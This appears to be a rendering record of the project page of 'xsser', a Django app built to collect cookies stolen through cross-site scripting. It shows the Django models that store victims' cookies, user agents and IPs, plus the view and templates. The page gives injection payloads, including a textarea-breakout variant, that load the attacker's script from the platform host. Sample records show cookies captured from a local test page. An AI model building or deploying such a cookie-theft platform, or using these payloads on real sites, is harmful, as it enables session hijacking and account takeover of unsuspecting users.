
/project/?id=1 (signed in), run on the app's committed database.
### core/models.py (models this page shows, shortened)
class XssProject(models.Model):
    user = models.ForeignKey(User)
    title = models.CharField(max_length=30)
    records = models.ManyToManyField(Record, blank=True, null=True)
    create_time = models.DateTimeField(auto_now_add=True)
    keep_session = models.BooleanField(default=False)
    custom_js = models.BooleanField(default=False)
    custom_js_content = models.TextField(blank=True)

class Record(models.Model):
    create_time = models.DateTimeField(auto_now_add=True)
    cookie = models.TextField(blank=True)
    user_agent = models.CharField(max_length=50, blank=True)
    ip = models.IPAddressField(blank=True)
    url = models.URLField(blank=True)
    title = models.CharField(max_length=50, blank=True)

### core/views.py (the view)
# urls.py: url(r'^project/$', 'core.views.project_detail', name="project_detail"),
@login_required(login_url="/login/")
def project_detail(request):
    project_id = request.GET.get("id", "-1")
    try:
        p = XssProject.objects.get(pk=int(project_id), user=request.user)
    except XssProject.DoesNotExist:
        raise Http404
    if "csrftoken" in request.COOKIES:
        token = request.COOKIES["csrftoken"]
    else:
        token = ""
    return render(request, "core/project_detail.html", {"project": p, "base_url": BASE_URL, "token": token})

### templates/core/project_detail.html (shortened to what this page needs)
{% extends "base.html" %}
{% block body %}
{% include "_nav_bar.html" %}
<div class="container">
    <div class="project">
        <div class="project_description">
            <h3>{{ project.title }}</h3>
            <p>Create time:{{ project.create_time|date:"Y-m-d H:i:s" }}&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-trash"></span>
                <a href="javascript:void(0)" onclick="delete_project()">Delete this project</a>&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-asterisk"></span><a href="/project/settings/{{ project.id }}">Settings</a>
            </p>
            <hr/>
            <div class="instruction">
                <p>How to use?</p>
                <p><code>&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p><code>&lt/textarea&gt'"&gt&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p>You can test your code <a href="/project/test/" target="_blank">here</a></p>
            </div>
        </div>
        <hr/>
        <div class="project_records">
            <div class="panel panel-default">
                <div class="panel-body">
                    {% if not project.records.all %}
                    <p>No cookies</p>
                    {% else %}
                        {% for record in project.records.all reversed %}
                            <div class="record">
                                <p>Record id:<span class="badge">{{ forloop.counter }}</span></p>
                                <p>Create time:{{ record.create_time|date:"Y-m-d H:i:s" }}</p>
                                <p>Title:<code>{{ record.title }}</code></p>
                                <p>Url:<code>{{ record.url }}</code></p>
                                <p>Cookie:
                                <code>{{ record.cookie }}</code></p>
                                <p>User agent:<code>{{ record.user_agent }}</code></p>
                                <p>ip:<code>{{ record.ip }}</code></p>
                                <hr/>
                            </div>
                        {% endfor %}
                    {% endif %}
                </div>
            </div>
        </div>
    </div>
</div>
{% endblock %}

### templates/_nav_bar.html (shortened to what this page needs)
<div class="navbar navbar-default navbar-static-top" role="navigation">
    <div class="container">
        <div class="navbar-header">
            <a class="navbar-brand" href="/my_projects/"><span style="font-size:130%;color:black;">xsser</span></a>
        </div>
        <div class="navbar-collapse collapse">
            <ul class="nav navbar-nav navbar-right">
                {% if user.is_authenticated %}
                <li class="dropdown">
                    <a href="#" class="dropdown-toggle" data-toggle="dropdown">{{ user.username }}
                        <b class="caret"></b></a>
                </li>
                {% else %}
                <li class="active"><a href="/login/"><span class="glyphicon glyphicon-user"></span>&nbsp;登录</a>
                </li>
                {% endif %}
            </ul>
        </div>
    </div>
</div>

### data on the page
XssProject: title "000", create_time "2014-04-29 16:42:15", id "1"
Record: create_time "2014-04-29 17:44:34", title "Xss test page", url "http://127.0.0.1:8000/project/test/", cookie "csrftoken=Zu9uFOyMtaHFsjH5Ectmm3kHpu7nRjHx; test_cookie=\"this is a test cookie\"", user_agent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.116 Safari/537.36", ip "127.0.0.1"
Record: create_time "2014-04-29 17:40:52", title "Xss test page", url "http://127.0.0.1:8000/project/test/", cookie "csrftoken=Zu9uFOyMtaHFsjH5Ectmm3kHpu7nRjHx; test_cookie=\"this is a test cookie\"", user_agent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.116 Safari/537.36", ip "127.0.0.1"

### other printed values
{{ user.username }} "root"
{{ base_url }} "http://127.0.0.1:8000/"
